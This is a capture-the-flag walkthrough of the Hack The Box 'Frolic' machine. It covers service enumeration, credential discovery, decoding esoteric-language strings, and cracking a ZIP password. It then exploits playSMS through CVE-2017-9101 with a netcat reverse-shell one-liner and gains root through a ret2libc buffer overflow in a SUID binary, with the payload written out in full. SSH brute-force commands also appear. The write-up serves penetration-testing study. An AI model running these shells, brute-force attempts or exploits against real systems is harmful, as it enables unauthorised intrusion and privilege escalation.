









`Box: Linux`
`Level: Easy`

### Index
1. [`Box Info`](#`Box%20Info`)
2. [`Initial Nmap Scan`](#`Initial%20Nmap%20Scan`)
3. [`Reconnoitre OSCP Scanner`](#`Reconnoitre%20OSCP%20Scanner`)
4. [`SMB Enumeration`](#`SMB%20Enumeration`)
5. [`Web on Port 1880`](#`Web%20on%20Port%201880`)
6. [`Web on Port 9999`](#`Web%20on%20Port%209999`)
	1. [`Testing LFI using LFIMAP`](#`Testing%20LFI%20using%20LFIMAP`)
	2. [`When the random string starts with / it can be a path`](#`When%20the%20random%20string%20starts%20with%20/%20it%20can%20be%20a%20path`)
	3. [`Cracking ZIP password`](#`Cracking%20ZIP%20password`)
	4. [`Decoding PHP Source`](#`Decoding%20PHP%20Source`)
	5. [`Shell as www-data`](#`Shell%20as%20www-data`)
7. [`Privilege Escalation`](#`Privilege%20Escalation`)
	1. [`ROP Buffer OverFlow`](#`ROP%20Buffer%20OverFlow`)
	2. [`Buffer OverFlow Post Exploitation`](#`Buffer%20OverFlow%20Post%20Exploitation`)

### `Box Info`
```
Frolic is not overly challenging, however a great deal of enumeration is required due to the amount of services and content running on the machine. The privilege escalation features an easy difficulty return-oriented programming (ROP) exploitation challenge, and is a great learning experience for beginners.
```

### `Initial Nmap Scan`
```
# nmap -p- --min-rate=1000 -sC -sV -sT -T4 -A -Pn 10.10.10.111
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 87:7b:91:2a:0f:11:b6:57:1e:cb:9f:77:cf:35:e2:21 (RSA)
|   256 b7:9b:06:dd:c2:5e:28:44:78:41:1e:67:7d:1e:b7:62 (ECDSA)
|_  256 21:cf:16:6d:82:a4:30:c3:c6:9c:d7:38:ba:b5:02:b0 (ED25519)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
1880/tcp open  http        Node.js (Express middleware)
|_http-title: Node-RED
9999/tcp open  http        nginx 1.10.3 (Ubuntu)
|_http-title: Welcome to nginx!
|_http-server-header: nginx/1.10.3 (Ubuntu)
```

### `Reconnoitre OSCP Scanner`
```
[*] Found SSH service on 10.10.10.111:22
   [*] Bruteforcing
      [=] medusa -u root -P /usr/share/wordlists/rockyou.txt -e ns -h 10.10.10.111 - 22 -M ssh
      [=] hydra -f -V -t 1 -l root -P /usr/share/wordlists/rockyou.txt -s 22 10.10.10.111 ssh
      [=] ncrack -vv -p 22 --user root -P PASS_LIST 10.10.10.111
   [*] Use nmap to automate banner grabbing and key fingerprints, e.g.
      [=] nmap 10.10.10.111 -p 22 -sV --script=ssh-hostkey -oA 'Reconnoitre/10.10.10.111/scans/10.10.10.111_22_ssh-hostkey'

[*] Found NetBIOS service on 10.10.10.111:139
   [*] Enumeration
      [=] nmblookup -A 10.10.10.111
      [=] smbclient //MOUNT/share -I 10.10.10.111 N
      [=] smbclient -L //10.10.10.111
      [=] enum4linux -a 10.10.10.111
      [=] rpcclient -U "" 10.10.10.111

[*] Found NetBIOS service on 10.10.10.111:445
   [*] Enumeration
      [=] nmblookup -A 10.10.10.111
      [=] smbclient //MOUNT/share -I 10.10.10.111 N
      [=] smbclient -L //10.10.10.111
      [=] enum4linux -a 10.10.10.111
      [=] rpcclient -U "" 10.10.10.111

[*] Found HTTP/S service on 10.10.10.111:9999
   [*] Enumeration
      [=] nikto -h 10.10.10.111 -p 9999 -output Reconnoitre/10.10.10.111/scans/10.10.10.111_9999_nikto.txt
      [=] curl -i 10.10.10.111:9999
      [=] w3m -dump 10.10.10.111/robots.txt | tee Reconnoitre/10.10.10.111/scans/10.10.10.111_9999_robots.txt
      [=] VHostScan -t 10.10.10.111 -oN Reconnoitre/10.10.10.111/scans/10.10.10.111_9999_vhosts.txt

[*] Found HTTP service on 10.10.10.111:9999
   [*] Enumeration
      [=] dirb http://10.10.10.111:9999/ -o Reconnoitre/10.10.10.111/scans/10.10.10.111_9999_dirb.txt
      [=] dirbuster -H -u http://10.10.10.111:9999/ -l /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 20 -s / -v -r Reconnoitre/10.10.10.111/scans/10.10.10.111_9999_dirbuster_medium.txt
      [=] gobuster -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://10.10.10.111:9999/ -s '200,204,301,302,307,403,500' -e | tee 'Reconnoitre/10.10.10.111/scans/10.10.10.111_9999_gobuster_common.txt'
      [=] gobuster -w /usr/share/seclists/Discovery/Web-Content/CGIs.txt -u http://10.10.10.111:9999/ -s '200,204,301,307,403,500' -e | tee 'Reconnoitre/10.10.10.111/scans/10.10.10.111_9999_gobuster_cgis.txt'

[*] Always remember to manually go over the portscan report and carefully read between the lines ;)
```

### `SMB Enumeration`
```
# netexec smb 10.10.10.111 -u Guest -p "" --shares
SMB         10.10.10.111    445    FROLIC           [*] Windows 6.1 (name:FROLIC) (domain:) (signing:False) (SMBv1:True)
SMB         10.10.10.111    445    FROLIC           [+] \Guest: 
SMB         10.10.10.111    445    FROLIC           [*] Enumerated shares
SMB         10.10.10.111    445    FROLIC           Share           Permissions     Remark
SMB         10.10.10.111    445    FROLIC           -----           -----------     ------
SMB         10.10.10.111    445    FROLIC           print$                          Printer Drivers
SMB         10.10.10.111    445    FROLIC           IPC$                            IPC Service (frolic server (Samba, Ubuntu))
```

Two Shares `print$` and `IPC$`. But none of them accessible over the guest account.

```
# enum4linux -a 10.10.10.111
[+] Got OS info for 10.10.10.111 from srvinfo:        
        FROLIC         Wk Sv PrQ Unx NT SNT frolic server (Samba, Ubuntu) 
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''                                                                              S-1-22-1-1000 Unix User\sahay (Local User)   
S-1-22-1-1001 Unix User\ayush (Local User)
```

We got two potential users `sahay` and `ayush`. 

### `Web on Port 1880`
```
# gobuster dir -u http://10.10.10.111:1880/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt 
/favicon.ico          (Status: 200) [Size: 16958]
/flows                (Status: 401) [Size: 12]
/icons                (Status: 401) [Size: 12]
/red                  (Status: 301) [Size: 173] [--> /red/]
/settings             (Status: 401) [Size: 12]
/vendor               (Status: 301) [Size: 179] [--> /vendor/]
Progress: 4734 / 4735 (99.98%)
===============================================================
Finished
```
Nothing interesting comes out of it in GoBuster.

```
─# gobuster dir -u http://10.10.10.111:1880/red/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
/about                (Status: 200) [Size: 54818]
/images               (Status: 301) [Size: 187] [--> /red/images/]
```

The `/about` downloads a really long text file with list of versions and items that is fixed in that version. The first few lines were as follows
```
#### 0.19.4: Maintenance Release

 - Fix race condition in non-cache lfs context Fixes #1888
#### 0.19.3: Maintenance Release
```
Assuming that the Node-Red is version 0.19.4.

```
# gobuster dir -u http://10.10.10.111:1880/red/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -x js,php,config,zip,html
```

Still nothing Interesting
### `Web on Port 9999`



```
# gobuster dir -u http://10.10.10.111:9999/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt                      
/.htaccess            (Status: 403) [Size: 178]
/.hta                 (Status: 403) [Size: 178]
/.htpasswd            (Status: 403) [Size: 178]
/admin                (Status: 301) [Size: 194] [--> http://10.10.10.111:9999/admin/]
/backup               (Status: 301) [Size: 194] [--> http://10.10.10.111:9999/backup/]
/dev                  (Status: 301) [Size: 194] [--> http://10.10.10.111:9999/dev/]
/test                 (Status: 301) [Size: 194] [--> http://10.10.10.111:9999/test/]
Progress: 4734 / 4735 (99.98%)
```

The `/admin` leads us to the login page.


Looking at the source, I notice `login.js` which reveals the password for this form.


Once you login with the above credentials, you will redirect to `success.html` which looks something like this.


Looking at this weird thing, I know that its `OoK` Language.  `Ook` is a similar to `Brainfuck` programming language except it has the word `Ook` along with some symbols.
From https://www.dcode.fr/ook-language I was able to get the text version of the above code.



```
Nothing here check /asdiSIAJJ0QWE9JAS
```

```
# gobuster dir -u http://10.10.10.111:9999/backup/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -x zip,tar,ini,conf,jar,php,html,txt -b 404
===============================================================
/index.php            (Status: 200) [Size: 28]
/index.php            (Status: 200) [Size: 28]
/password.txt         (Status: 200) [Size: 22]
/user.txt             (Status: 200) [Size: 13]
Progress: 42606 / 42615 (99.98%)
===============================================================
```

We have two interesting text files under `http://10.10.10.111/backup/` directory.
```
# curl http://10.10.10.111:9999/backup/user.txt
user - admin
# curl http://10.10.10.111:9999/backup/password.txt
password - imnothuman
```

Got a credentials but not sure where to use this. Strat with `SMB`. 
```
# smbclient -U 'FROLIC/admin%imnothuman' //10.10.10.111/print$                    
tree connect failed: NT_STATUS_ACCESS_DENIED
```

i got stuck here and don't know what to do so I decided to re-enumerate.
```
# feroxbuster -u http://10.10.10.111:9999/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  -C 404
404      GET        7l       13w      178c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
403      GET        7l       11w      178c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET       28l       71w      637c http://10.10.10.111:9999/
301      GET        7l       13w      194c http://10.10.10.111:9999/admin => http://10.10.10.111:9999/admin/
301      GET        7l       13w      194c http://10.10.10.111:9999/test => http://10.10.10.111:9999/test/
301      GET        7l       13w      194c http://10.10.10.111:9999/dev => http://10.10.10.111:9999/dev/
301      GET        7l       13w      194c http://10.10.10.111:9999/admin/css => http://10.10.10.111:9999/admin/css/
301      GET        7l       13w      194c http://10.10.10.111:9999/admin/js => http://10.10.10.111:9999/admin/js/
200      GET        1l        1w        5c http://10.10.10.111:9999/dev/test
301      GET        7l       13w      194c http://10.10.10.111:9999/backup => http://10.10.10.111:9999/backup/
301      GET        7l       13w      194c http://10.10.10.111:9999/dev/backup => http://10.10.10.111:9999/dev/backup/
301      GET        7l       13w      194c http://10.10.10.111:9999/loop => http://10.10.10.111:9999/loop/
301      GET        7l       13w      194c http://10.10.10.111:9999/backup/loop => http://10.10.10.111:9999/backup/loop/
301      GET        7l       13w      194c http://10.10.10.111:9999/loop/loop => http://10.10.10.111:9999/loop/loop/
301      GET        7l       13w      194c http://10.10.10.111:9999/backup/loop/loop => http://10.10.10.111:9999/backup/loop/loop/
301      GET        7l       13w      194c http://10.10.10.111:9999/loop/loop/loop => http://10.10.10.111:9999/loop/loop/loop/

```

`/dev/backup` is something I didn't observed earlier. 


`http://frolic.htb:9999/playsms` will redirect to the following login page. I tried `admin` and `imnothuman` as a password but that did not worked.


###### `Testing LFI using LFIMAP`
The [LFIMAP](https://github.com/hansmach1ne/lfimap/wiki/Installation) is like SQLMAP. I was trying to test if the `route=login` parameter is vulnerable to LFI or not. 
```
# python3 lfimap/lfimap.py -U 'http://10.10.10.111:9999/playsms/index.php?app=main&inc=core_auth&route='     

[i] Testing GET 'app' parameter...
[-] GET parameter 'app' doesn't seem to be vulnerable....

[i] Testing GET 'inc' parameter...
[-] GET parameter 'inc' doesn't seem to be vulnerable....

[i] Testing GET 'route' parameter...
[-] GET parameter 'route' doesn't seem to be vulnerable....

----------------------------------------
LFImap finished with execution.
Parameters tested: 3
Requests sent: 157
Vulnerabilities found: 0
```

###### `When the random string starts with / it can be a path`
So one of the **Lesson Learned** for this box is that I have discovered `/asdiSIAJJ0QWE9JAS` above during the Ook! code. Upon Executing that code in the online compiler, I got `/asdiSIAJJ0QWE9JAS` but I couldn't think that it can be the path string.
```
┌──(root㉿kali)-[/home/ringbuffer/Downloads/Tools/LFImap]
└─# curl http://10.10.10.111:9999/asdiSIAJJ0QWE9JAS/ 
UEsDBBQACQAIAMOJN00j/lsUsAAAAGkCAAAJABwAaW5kZXgucGhwVVQJAAOFfKdbhXynW3V4CwAB
BAAAAAAEAAAAAF5E5hBKn3OyaIopmhuVUPBuC6m/U3PkAkp3GhHcjuWgNOL22Y9r7nrQEopVyJbs
K1i6f+BQyOES4baHpOrQu+J4XxPATolb/Y2EU6rqOPKD8uIPkUoyU8cqgwNE0I19kzhkVA5RAmve
EMrX4+T7al+fi/kY6ZTAJ3h/Y5DCFt2PdL6yNzVRrAuaigMOlRBrAyw0tdliKb40RrXpBgn/uoTj
lurp78cmcTJviFfUnOM5UEsHCCP+WxSwAAAAaQIAAFBLAQIeAxQACQAIAMOJN00j/lsUsAAAAGkC
AAAJABgAAAAAAAEAAACkgQAAAABpbmRleC5waHBVVAUAA4V8p1t1eAsAAQQAAAAABAAAAABQSwUG
AAAAAAEAAQBPAAAAAwEAAAAA
```

So we got this weird long hash. Running GoBuster on this directory 
```
# gobuster dir -u http://10.10.10.111:9999/asdiSIAJJ0QWE9JAS/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -x zip,tar,ini,conf,jar,php,html,txt -b 404
===============================================================
/crack.zip            (Status: 200) [Size: 360]
/index.php            (Status: 200) [Size: 487]
/index.php            (Status: 200) [Size: 487]
Progress: 42606 / 42615 (99.98%)
===============================================================
```

Downloading the `crack.zip`
```
┌──(root㉿kali)-[/home/ringbuffer/Downloads/Linux-Boxes/Frolic.htb]
└─# unzip crack.zip
Archive:  crack.zip
[crack.zip] index.php password:
```

###### `Cracking ZIP password`
```
┌──(root㉿kali)-[/home/ringbuffer/Downloads/Linux-Boxes/Frolic.htb]
└─# fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt crack.zip 


PASSWORD FOUND!!!!: pw == password

┌──(root㉿kali)-[/home/ringbuffer/Downloads/Linux-Boxes/Frolic.htb]
└─# unzip crack.zip                                      
Archive:  crack.zip
[crack.zip] index.php password: 
  inflating: index.php     
```

```
┌──(root㉿kali)-[/home/ringbuffer/Downloads/Linux-Boxes/Frolic.htb]
└─# cat index.php                      
4b7973724b7973674b7973724b7973675779302b4b7973674b7973724b7973674b79737250463067506973724b7973674b7934744c5330674c5330754b7973674b7973724b7973674c6a77720d0a4b7973675779302b4b7973674b7a78645069734b4b797375504373674b7974624c5434674c53307450463067506930744c5330674c5330754c5330674c5330744c5330674c6a77724b7973670d0a4b317374506973674b79737250463067506973724b793467504373724b3173674c5434744c53304b5046302b4c5330674c6a77724b7973675779302b4b7973674b7a7864506973674c6930740d0a4c533467504373724b3173674c5434744c5330675046302b4c5330674c5330744c533467504373724b7973675779302b4b7973674b7973385854344b4b7973754c6a776743673d3d0d0a
```

Another long string. Okay. Another **Lesson Learned**. So when you find such a long hash with a file extension like `.php` or `.aspx` than its not the hash but just an encoded source code. Here's how I decode this source code.

###### `Decoding PHP Source`

Since it's PHP, I will use the PHP Decoder. Copy the above string and go to Burp, Decode this with `ASCII HEX`


Copy the above Decoded text and Visit https://onlinephp.io/base64-decode. Paste your Decoded text there.


Now we got the `BrainFuck` version of the code. Let's go to our next site. Visit https://www.dcode.fr/brainfuck-language to decode this.



Cool we got the password `idkwhatispass`. Login to `/Playsms` with this password.

###### `Shell as www-data`

The following PoC was used to get the shell. https://github.com/jasperla/CVE-2017-9101
```
──(root㉿kali)-[/home/…/Downloads/Linux-Boxes/Frolic.htb/CVE-2017-9101]
└─# python3 playsmshell.py --url http://frolic.htb:9999/playsms --password idkwhatispass -i                  
[*] Grabbing CSRF token for login
[*] Attempting to login as admin
[+] Logged in!
[*] Grabbing CSRF token for phonebook import
[+] Entering interactive shell; type "quit" or ^D to quit
> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

However, this shell was not allowing me to change the directory. So I switch the reverse shell as follows
```
# python3 playsmshell.py --url http://frolic.htb:9999/playsms --password idkwhatispass -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 4444 >/tmp/f'
[*] Grabbing CSRF token for login
[*] Attempting to login as admin
[+] Logged in!
[*] Grabbing CSRF token for phonebook import
[*] Attempting to execute payload

```

On the Netcat Listening Side,
```
$ sudo nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.111] 37432
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ ls
config-dist.php
config.php
inc
index.php
init.php
lib
plugin
storage
$ cd ..
$ ls
admin
asdiSIAJJ0QWE9JAS
backup
dev
index.nginx-debian.html
loop
playsms
playsms-1.4.2
test
$ cd /home
```

```
www-data@frolic:/home/ayush$ pwd
pwd
/home/ayush
www-data@frolic:/home/ayush$ cat user.txt
cat user.txt
7563************
```

Get your user flag. 

### `Privilege Escalation`

###### `ROP Buffer OverFlow`

```
╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid                                                                         
-rwsr-xr-x 1 root root 7.4K Sep 25  2018 /home/ayush/.binary/rop (Unknown SUID binary!)
```

So we have one Unknown binary.
```
┌──(root㉿kali)-[/home/ringbuffer/Downloads/Linux-Boxes/Frolic.htb]
└─# ./rop HELLO                       
[+] Message sent: HELLO                                                                                                                                                                        
┌──(root㉿kali)-[/home/ringbuffer/Downloads/Linux-Boxes/Frolic.htb]
└─# ./rop HELLOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOO
zsh: segmentation fault  ./rop HELLOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOO
```

###### `Buffer OverFlow Post Exploitation`

```
www-data@frolic:/home/ayush/.binary$ ldd rop
ldd rop
        linux-gate.so.1 =>  (0xb7fda000)
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7e19000)
        /lib/ld-linux.so.2 (0xb7fdb000)
```

```
www-data@frolic:/home/ayush/.binary$ cat /proc/sys/kernel/randomize_va_space
cat /proc/sys/kernel/randomize_va_space
0
```
ASLR is disabled. Which is a good sign.

```
# checksec rop 
[!] Could not populate PLT: Invalid argument (UC_ERR_ARG)
[*] '/home/ringbuffer/Downloads/Linux-Boxes/Frolic.htb/rop'
    Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x8048000)
    Stripped:   No
```

Execute Stack is disabled: `NX Enabled`.  Next we will use `readelf` to grab the memory address of the `SYSTEM` and `EXIT` function.

```
www-data@frolic:/home/ayush/.binary$ readelf -s /lib/i386-linux-gnu/libc.so.6 | grep "system@"
</.binary$ readelf -s /lib/i386-linux-gnu/libc.so.6 | grep "system@"         
   627: 0003ada0    55 FUNC    GLOBAL DEFAULT   13 __libc_system@@GLIBC_PRIVATE
  1457: 0003ada0    55 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.0

www-data@frolic:/home/ayush/.binary$ readelf -s /lib/i386-linux-gnu/libc.so.6 | grep "exit@"
</.binary$ readelf -s /lib/i386-linux-gnu/libc.so.6 | grep "exit@"           
   112: 0002edc0    39 FUNC    GLOBAL DEFAULT   13 __cxa_at_quick_exit@@GLIBC_2.10
   141: 0002e9d0    31 FUNC    GLOBAL DEFAULT   13 exit@@GLIBC_2.0
   558: 000b07c8    24 FUNC    GLOBAL DEFAULT   13 _exit@@GLIBC_2.0
   616: 00115fa0    56 FUNC    GLOBAL DEFAULT   13 svc_exit@@GLIBC_2.0
   652: 0002eda0    31 FUNC    GLOBAL DEFAULT   13 quick_exit@@GLIBC_2.10
   876: 0002ebf0    85 FUNC    GLOBAL DEFAULT   13 __cxa_atexit@@GLIBC_2.1.3
  1046: 0011fb80    52 FUNC    GLOBAL DEFAULT   13 atexit@GLIBC_2.0
  1506: 000f3870    58 FUNC    GLOBAL DEFAULT   13 pthread_exit@@GLIBC_2.0
  2263: 0002e9f0    78 FUNC    WEAK   DEFAULT   13 on_exit@@GLIBC_2.0
  2406: 000f4c80     2 FUNC    GLOBAL DEFAULT   13 __cyg_profile_func_exit@@GLIBC_2.2
```

Now we are going to use the following two memory address
`1457: 0003ada0    55 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.0` AND 
`141: 0002e9d0    31 FUNC    GLOBAL DEFAULT   13 exit@@GLIBC_2.0`

Now we need a string `/bin/sh` from the libc. We are going to use `strings` command.
```
www-data@frolic:/home/ayush/.binary$ strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep '/bin/sh'
</.binary$ strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep '/bin/sh'    
 15ba0b /bin/sh
```

The memory address for the string `/bin/sh` is `15ba0b`. So now we will need to keep in mind the following memory addresses.

```
Memory Address of Libc Library: libc.so.6 ==> /lib/i386-linux-gnu/libc.so.6 (0xb7e19000)

Memory Address of System Function from Libc Library ==>  0003ada0    55 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.0

Memory Address Of Exit Function from Libc Library ==>    0002e9d0    31 FUNC    GLOBAL DEFAULT   13 exit@@GLIBC_2.0

Memory Address of /bin/sh String from Libc Library ==>   15ba0b /bin/sh
```

Now we need to calculate the address of `SYSTEM`, `EXIT` and `/bin/sh` String using the GDB so that we can put those values in our final exploit. So Why we are doing this? Because we have a memory address of `SYSTEM`, `EXIT` and `/bin/sh` String but those are addresses that present in libc so we will add libc memory address with all the three things to get the final values (libc + System, libc + Exit, libc + /bin/sh) which goes in the final exploit.

```
(gdb) p 0xb7e19000 + 0x0003ada0 # SYSTEM
$1 = 3085254048

(gdb) p 0xb7e19000 + 0x0002e9d0 # EXIT
$2 = 3085203920

(gdb) p 0xb7e19000 + 0x15ba0b   # /bin/sh String
$3 = 3086436875
```

Our final exploit would be `./rop '\x41'*52 + SYSTEM + EXIT + /bin/sh`. Oh! we are going to put these address in the little-endian format.

```
./rop $(python -c 'print("a"*52 + "\xa0\x3d\xe5\xb7" + "\xd0\x79\xe4\xb7" + "\x0b\x4a\xf7\xb7")') # There was some fucked-up with my addresses so i copied the addresses from one of the writeup

```


```
www-data@frolic:/home/ayush/.binary$ ./rop $(python -c 'print("a"*52 + "\xa0\x3d\xe5\xb7" + "\xd0\x79\xe4\xb7" + "\x0b\x4a\xf7\xb7")')
<d\xe5\xb7" + "\xd0\x79\xe4\xb7" + "\x0b\x4a\xf7\xb7")')                     
# id
id
uid=0(root) gid=33(www-data) groups=33(www-data)

```
Get your root flag